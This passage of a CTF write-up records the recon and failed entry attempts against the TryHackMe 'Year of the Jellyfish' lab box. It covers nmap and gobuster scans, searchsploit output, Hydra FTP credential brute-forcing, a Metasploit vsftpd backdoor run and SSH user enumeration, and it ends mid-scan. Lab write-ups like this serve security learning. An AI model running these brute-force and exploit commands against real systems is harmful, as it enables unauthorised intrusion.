






This challenge was a part of an [**OSCP**](https://www.offensive-security.com/pwk-oscp/) voucher giveaway donated by [@q8fawazo](https://twitter.com/q8fawazo) and 5 One Month TryHackMe Subscription Vouchers from [@Virtual_Lad](https://twitter.com/Virtual_Lad).

The box was created by [MuirlandOracle](https://muirlandoracle.co.uk/), creator of the previous boxes: [Year of the Dog](https://tryhackme.com/room/yearofthedog) and [Year of the Owl](https://tryhackme.com/room/yearoftheowl). I must admit that I didn't manage even to acquire a user flag within 7 days the machine was up, but for me personally, it was a great learning experience.

**MuirlandOracle** is known from his decoys (apparently) and you will see a lot of them below. 
Although, this must be said: this write-up could be much shorter, but I wanted to document all the dead ends I've stumbled upon.

> If you are really here just for the meat, you can go directly to the "Hosts entry" section.
> Learn more from additional readings found at the end of the article. I would be thankful if you mention me when using parts of this article in your work. Enjoy!

# Basic Information

| #     |   |
|:--    |:--|
|Type   | Challenge Box / Giveaway
|Name    | **Try Hack Me / Year of the Jellyfish**
|Started | 2021/04/25
|URLs    | https://tryhackme.com/room/yearofthejellyfish
|Author	| **Asentinn** / OkabeRintaro
|		| [https://ctftime.org/team/152207](https://ctftime.org/team/152207)

# Target of Evaluation

We are given the **public** IP:

* `34.253.63.1`

# Recon

To begin with: scanning for the open ports, both TCP and UDP.

> Later on the Discord I was suggested to not scan UDPs on THM as they are costly and won't help much. It's personal 
reference I guess - unless I find a legit reason to not scan UDPs, I will continue to do that in the background.

```sh
$ sudo nmap -sS -vv 34.253.63.1

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 02:25 CEST
Initiating Ping Scan at 02:25
Scanning 34.253.63.1 [4 ports]
Completed Ping Scan at 02:25, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 02:25
Completed Parallel DNS resolution of 1 host. at 02:25, 0.06s elapsed
Initiating SYN Stealth Scan at 02:25
Scanning ec2-54-170-98-151.eu-west-1.compute.amazonaws.com (34.253.63.1) [1000 ports]
Discovered open port 22/tcp on 34.253.63.1
Discovered open port 443/tcp on 34.253.63.1
Discovered open port 80/tcp on 34.253.63.1
Discovered open port 21/tcp on 34.253.63.1
Discovered open port 8000/tcp on 34.253.63.1
Completed SYN Stealth Scan at 02:25, 20.96s elapsed (1000 total ports)
Nmap scan report for ec2-54-170-98-151.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up, received reset ttl 255 (0.031s latency).
Scanned at 2021-04-25 02:25:25 CEST for 21s
Not shown: 995 filtered ports
Reason: 995 no-responses
PORT     STATE SERVICE  REASON
21/tcp   open  ftp      syn-ack ttl 64
22/tcp   open  ssh      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
443/tcp  open  https    syn-ack ttl 64
8000/tcp open  http-alt syn-ack ttl 64

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
           Raw packets sent: 3009 (132.316KB) | Rcvd: 21 (864B)

```

```sh
$ sudo nmap -sU --top-ports 20 34.253.63.1

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 02:26 CEST
Nmap scan report for ec2-54-170-98-151.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up (0.00059s latency).

PORT      STATE         SERVICE
53/udp    open|filtered domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   open|filtered snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  open|filtered ms-sql-m
1900/udp  open|filtered upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown

Nmap done: 1 IP address (1 host up) scanned in 1.96 seconds

```

Now that we have services running, we should look for the entry points. We could do that by passing `nmap -sV` output to the `searchsploit`.

```sh
$ nmap -sV 34.244.245.0 -p 21,22,80,443,8000 -oX nmap.out

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-06 14:01 CEST
Nmap scan report for ec2-34-244-245-0.eu-west-1.compute.amazonaws.com (34.244.245.0)
Host is up (0.056s latency).

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http     Apache httpd 2.4.29
443/tcp  open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http-alt
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.91%I=7%D=5/6%Time=6093DA91%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,3F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Length:\x20
SF:15\r\n\r\n400\x20Bad\x20Request");
Service Info: Host: robyns-petshop.thm; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.74 seconds

```

```text
$ searchsploit --nmap nmap.out      

[i] SearchSploit's XML mode (without verbose enabled).   To enable: searchsploit -v --xml...
[i] Reading: 'nmap.out'

[-] Skipping term: ftp   (Term is too general. Please re-search manually: /usr/bin/searchsploit -t ftp)

[i] /usr/bin/searchsploit -t vsftpd
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                       | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                       | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                       | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                     | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                            | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                               | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                              | multiple/remote/49719.py
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


[-] Skipping term: ssh   (Term is too general. Please re-search manually: /usr/bin/searchsploit -t ssh)

[i] /usr/bin/searchsploit -t openssh
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Debian OpenSSH - (Authenticated) Remote SELinux Privilege Escalation                 | linux/remote/6094.txt
Dropbear / OpenSSH Server - 'MAX_UNAUTH_CLIENTS' Denial of Service                   | multiple/dos/1572.pl
FreeBSD OpenSSH 3.5p1 - Remote Command Execution                                     | freebsd/remote/17462.txt
glibc-2.2 / openssh-2.3.0p1 / glibc 2.1.9x - File Read                               | linux/local/258.sh
Novell Netware 6.5 - OpenSSH Remote Stack Overflow                                   | novell/dos/14866.txt
OpenSSH 1.2 - '.scp' File Create/Overwrite                                           | linux/remote/20253.sh
OpenSSH 2.3 < 7.7 - Username Enumeration                                             | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                       | linux/remote/45210.py
OpenSSH 2.x/3.0.1/3.0.2 - Channel Code Off-by-One                                    | unix/remote/21314.txt
OpenSSH 2.x/3.x - Kerberos 4 TGT/AFS Token Buffer Overflow                           | linux/remote/21402.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (1)                                 | unix/remote/21578.txt
OpenSSH 3.x - Challenge-Response Buffer Overflow (2)                                 | unix/remote/21579.txt
OpenSSH 4.3 p1 - Duplicated Block Remote Denial of Service                           | multiple/dos/2444.sh
OpenSSH 6.8 < 6.9 - 'PTY' Local Privilege Escalation                                 | linux/local/41173.c
OpenSSH 7.2 - Denial of Service                                                      | linux/dos/40888.py
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                              | multiple/remote/39569.py
OpenSSH 7.2p2 - Username Enumeration                                                 | linux/remote/40136.py
OpenSSH < 6.6 SFTP (x64) - Command Execution                                         | linux_x86-64/remote/45000.c
OpenSSH < 6.6 SFTP - Command Execution                                               | linux/remote/45001.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Priv | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                             | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                 | linux/remote/45939.py
OpenSSH SCP Client - Write Arbitrary Files                                           | multiple/remote/46516.py
OpenSSH/PAM 3.6.1p1 - 'gossh.sh' Remote Users Ident                                  | linux/remote/26.sh
OpenSSH/PAM 3.6.1p1 - Remote Users Discovery Tool                                    | linux/remote/25.c
OpenSSHd 7.2p2 - Username Enumeration                                                | linux/remote/40113.txt
Portable OpenSSH 3.6.1p-PAM/4.1-SuSE - Timing Attack                                 | multiple/remote/3303.sh
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results


[-] Skipping term: http   (Term is too general. Please re-search manually: /usr/bin/searchsploit -t http)

[i] /usr/bin/searchsploit -t apache httpd
------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                       |  Path
------------------------------------------------------------------------------------- ---------------------------------
Apache 0.8.x/1.0.x / NCSA HTTPd 1.x - 'test-cgi' Directory Listing                   | cgi/remote/20435.txt
Apache 1.1 / NCSA HTTPd 1.5.2 / Netscape Server 1.12/1.1/2.0 - a nph-test-cgi        | multiple/dos/19536.txt
Apache Httpd mod_proxy - Error Page Cross-Site Scripting                             | multiple/webapps/47688.md
Apache Httpd mod_rewrite - Open Redirects                                            | multiple/webapps/47689.md
NCSA 1.3/1.4.x/1.5 / Apache HTTPd 0.8.11/0.8.14 - ScriptAlias Source Retrieval       | multiple/remote/20595.txt
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

* `vsftpd`: is no go, because it is updated version with only DoS attack
* `OpenSSH`: well, here we have some scripts to try
* `Apache httpd`: at the first glance it looks like we won't get much out of it

Ok let's enumerate all these websites.

## Website (:80)

Navigating to `34.253.63.1` returns 302 Redirect to `https://robyns-petshop.thm/`. Of course, it is unavailable, I'm going to try it once again when I connect to the THM VPN (because of _thm_ TLD).

> Here I can spoil a little, that connecting to the VPN won't help me much by itself. But it is required to bypass public IP limitations. Continue reading.

```sh
$ nmap -A 34.253.63.1 -p 80  

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 10:47 CEST
Nmap scan report for ec2-52-19-2-77.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up (0.054s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Web Threat Blocked
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: Host: robyns-petshop.thm

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.97 seconds

```

## Website (:443)

`https://34.253.63.1/`

Page is displayed.. 




..and apart the sad fish, site has untrusted certificate to look at.



**Voila**

### Certificate

* Issues by: DigiNotar (NL)
* Subject Alt Names:
	* robyns-petshop.thm
	* monitorr.robyns-petshop.thm
	* beta.robyns-petshop.thm
	* dev.robyns-petshop.thm

> This is the moment which clearly reveals my lack of knowledge and experience. What I should do now is to add these domains in hosts file under the public IP and browse them. Well.. That was the thing that won't let me pass further because this step is required to solve the machine.

### Directory enumeration

I'm firing up the `gobuster` and after a few seconds I'm running into the wall.

```sh
gobuster dir  -w /usr/wl/dirbuster-m.txt -u https://34.253.63.1/ --exclude-length 8962 -k
```



What is happening is that public IP can be very delicate and won't accept too many requests per second from one IP. So I decided to live with it and run a `gobuster` in batches, modifying the wordlist manually between consecutive runs. I've added some delay and this is what I've got:

```sh
$ gobuster dir  -w /usr/wl/dirbuster-m-yojf.txt -u https://34.253.63.1/ --exclude-length 8962 --delay 2000ms -k

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://34.253.63.1/
[+] Method:                  GET
[+] Threads:                 10
[+] Delay:                   2s
[+] Wordlist:                ./dirbuster-m-yojf.txt
[+] Negative Status codes:   404
[+] Exclude Length:          8962
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/25 22:38:13 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 318] [--> https://34.253.63.1/content/]
/themes               (Status: 301) [Size: 317] [--> https://34.253.63.1/themes/] 
/business             (Status: 401) [Size: 461]                                     
/assets               (Status: 301) [Size: 317] [--> https://34.253.63.1/assets/] 
/plugins              (Status: 301) [Size: 318] [--> https://34.253.63.1/plugins/]

```

```sh
$ gobuster dir  -w ./dirbuster-m-yojf.txt -u https://34.253.63.1/ --exclude-length 8962 --delay 2000ms -k

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://34.253.63.1/
[+] Method:                  GET
[+] Threads:                 10
[+] Delay:                   2s
[+] Wordlist:                ./dirbuster-m-yojf.txt
[+] Negative Status codes:   404
[+] Exclude Length:          8962
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/26 01:47:19 Starting gobuster in directory enumeration mode
===============================================================
/vendor               (Status: 301) [Size: 313] [--> https://34.253.63.1/vendor/]
/config               (Status: 301) [Size: 313] [--> https://34.253.63.1/config/]
/LICENSE              (Status: 200) [Size: 1085]                                 

```

```sh
$ gobuster dir  -w ./dirbuster-m-yojf.txt -u https://34.255.182.230 --exclude-length 8962 --delay 1500ms -k

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://34.255.182.230
[+] Method:                  GET
[+] Threads:                 10
[+] Delay:                   1.5s
[+] Wordlist:                ./dirbuster-m-yojf.txt
[+] Negative Status codes:   404
[+] Exclude Length:          8962
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/04/26 08:09:14 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 280]
```

Now I have in my notes A LOT of information that I get from these directories - but none of them are relevant. I think I spare you these, so just a quick summary:
* Pico theme: v2.1.4
* PicoDeprecated: v2.1.4

## Website (:8000)

```sh
$ curl http://34.253.63.1:8000/
```

```html
<html lang="en"><head><title>Under Development!</title><meta charset="utf-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"></head><body><h1>Under Construction</h1><h2>This site is under development. Please be patient.</h2><p>If you have been given a specific ID to use when accessing this development site, please put it at the end of the url (e.g. 34.253.63.1:8000/ID_HERE)</body></html>         
```

I didn't find any ID, but I tried bruteforce a bit manually - no success. Few examples:

```text
http://34.253.63.1:8000/Alistair
http://34.253.63.1:8000/Gerald
http://34.253.63.1:8000/Credence
http://34.253.63.1:8000/Honey
http://34.253.63.1:8000/Fred
http://34.253.63.1:8000/pets
http://34.253.63.1:8000/jellyfish
http://34.253.63.1:8000/dev
http://34.253.63.1:8000/robyn
http://34.253.63.1:8000/petshop
http://34.253.63.1:8000/robynpetshop
http://34.253.63.1:8000/robynspetshop
```

## FTP (:21)

Although I know v3.0.3 should be patched - I've tried some `metasploit` and `hydra` attacks nevertheless. Didn't get me anything, though.

```sh
$ nmap -A 34.253.63.1 -p 21

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 10:50 CEST
Nmap scan report for ec2-52-19-2-77.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.21 seconds

```

```sh
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 34.253.63.1:21 - Banner: 220 (vsFTPd 3.0.3)
[*] 34.253.63.1:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

```sh
$ hydra -s 21 -C /usr/share/legion/wordlists/ftp-betterdefaultpasslist.txt -u -f 34.253.63.1 ftp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 12:37:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking ftp://34.253.63.1:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-25 12:37:40
```

```sh
$ hydra -s 21 -C /usr/wl/brutex_ftp_userpass.txt -u -f 34.253.63.1 ftp

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-25 12:42:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 75 login tries, ~5 tries per task
[DATA] attacking ftp://34.253.63.1:21/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-25 12:43:16

```

## SSH (:22)

So maybe SSH will be successful?

```sh
$ sudo nmap -sS -sV --script=default,vuln -p 22 34.253.63.1 

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 11:13 CEST
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.56% done; ETC: 11:14 (0:00:00 remaining)
Nmap scan report for ec2-52-19-2-77.eu-west-1.compute.amazonaws.com (34.253.63.1)
Host is up (0.0075s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  2048 46:b2:81:be:e0:bc:a7:86:39:39:82:5b:bf:e5:65:58 (RSA)
| vulners: 
|   cpe:/a:openbsd:openssh:5.9p1: 
|     	EDB-ID:40888	7.8	https://vulners.com/exploitdb/EDB-ID:40888	*EXPLOIT*
|     	EDB-ID:41173	7.2	https://vulners.com/exploitdb/EDB-ID:41173	*EXPLOIT*
|     	SSV:60656	5.0	https://vulners.com/seebug/SSV:60656	*EXPLOIT*
|     	CVE-2018-15919	5.0	https://vulners.com/cve/CVE-2018-15919
|     	CVE-2017-15906	5.0	https://vulners.com/cve/CVE-2017-15906
|     	CVE-2010-5107	5.0	https://vulners.com/cve/CVE-2010-5107
|     	SSV:90447	4.6	https://vulners.com/seebug/SSV:90447	*EXPLOIT*
|     	EDB-ID:45233	4.6	https://vulners.com/exploitdb/EDB-ID:45233	*EXPLOIT*
|     	EDB-ID:45210	4.6	https://vulners.com/exploitdb/EDB-ID:45210	*EXPLOIT*
|     	EDB-ID:45001	4.6	https://vulners.com/exploitdb/EDB-ID:45001	*EXPLOIT*
|     	EDB-ID:45000	4.6	https://vulners.com/exploitdb/EDB-ID:45000	*EXPLOIT*
|     	EDB-ID:40963	4.6	https://vulners.com/exploitdb/EDB-ID:40963	*EXPLOIT*
|     	EDB-ID:40962	4.6	https://vulners.com/exploitdb/EDB-ID:40962	*EXPLOIT*
|     	CVE-2016-0778	4.6	https://vulners.com/cve/CVE-2016-0778
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|_    	CVE-2016-0777	4.0	https://vulners.com/cve/CVE-2016-0777
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.14 seconds
```

Tried few of them with no success:

```text
DoS			EDB-ID:40888	7.8	https://vulners.com/exploitdb/EDB-ID:40888	*EXPLOIT*
LPrivEsc    EDB-ID:41173	7.2	https://vulners.com/exploitdb/EDB-ID:41173	*EXPLOIT*
:(		 	SSV:60656	5.0	https://vulners.com/seebug/SSV:60656	*EXPLOIT*
-		 	CVE-2018-15919	5.0	https://vulners.com/cve/CVE-2018-15919
-		 	CVE-2017-15906	5.0	https://vulners.com/cve/CVE-2017-15906
		 	CVE-2010-5107	5.0	https://vulners.com/cve/CVE-2010-5107
		 	SSV:90447	4.6	https://vulners.com/seebug/SSV:90447	*EXPLOIT*
		 	EDB-ID:45233	4.6	https://vulners.com/exploitdb/EDB-ID:45233	*EXPLOIT*
		 	EDB-ID:45210	4.6	https://vulners.com/exploitdb/EDB-ID:45210	*EXPLOIT*
		 	EDB-ID:45001	4.6	https://vulners.com/exploitdb/EDB-ID:45001	*EXPLOIT*
		 	EDB-ID:45000	4.6	https://vulners.com/exploitdb/EDB-ID:45000	*EXPLOIT*
			EDB-ID:40963	4.6	https://vulners.com/exploitdb/EDB-ID:40963	*EXPLOIT*
		 	EDB-ID:40962	4.6	https://vulners.com/exploitdb/EDB-ID:40962	*EXPLOIT*
		 	CVE-2016-0778	4.6	https://vulners.com/cve/CVE-2016-0778
			CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
			CVE-2016-0777	4.0	https://vulners.com/cve/CVE-2016-0777
```

```sh
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 34.253.63.1:22 - SSH - Using malformed packet technique
[*] 34.253.63.1:22 - SSH - Starting scan
[+] 34.253.63.1:22 - SSH - User 'robyn' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```sh
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run

[*] 34.253.63.1:22 - SSH - Using malformed packet technique
[*] 34.253.63.1:22 - SSH - Starting scan
[+] 34.253.63.1:22 - SSH - User 'admin' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> Well, it sounds like we got it right? I've tried to repeat this right now, but I couldn't - at the time of the event this scanner retuned false positives on all users feeded to the script. Now it seems to work, returning `true` on `mysql` user only.

I've tried to guess passwords but no luck there.

Having all this information I didn't manage to go any further. So I've tried to go back a little and connect to the THM VPN.

# THM Network

So, starting from the beginning:

```sh
$ nmap -p- -Pn 34.253.63.1 -vv

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 13:31 CEST
Initiating Parallel DNS resolution of 1 host. at 13:31
